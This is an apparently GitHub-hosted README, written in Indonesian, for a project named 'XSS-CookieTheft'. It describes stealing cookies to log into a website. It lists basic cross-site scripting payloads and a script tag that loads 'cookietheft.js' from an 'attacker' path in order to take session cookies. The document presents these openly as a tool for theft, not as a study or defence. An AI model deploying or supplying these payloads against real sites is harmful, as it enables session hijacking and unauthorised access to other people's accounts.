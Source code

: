 # XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

## XSS Payload
### Basic
`<img src="x" onerror="alert('XSS')">
<script>alert('XSS')</script>`
### External JavaScript
`<script src="http://localhost:8089/attacker/cookietheft.js"></script>`
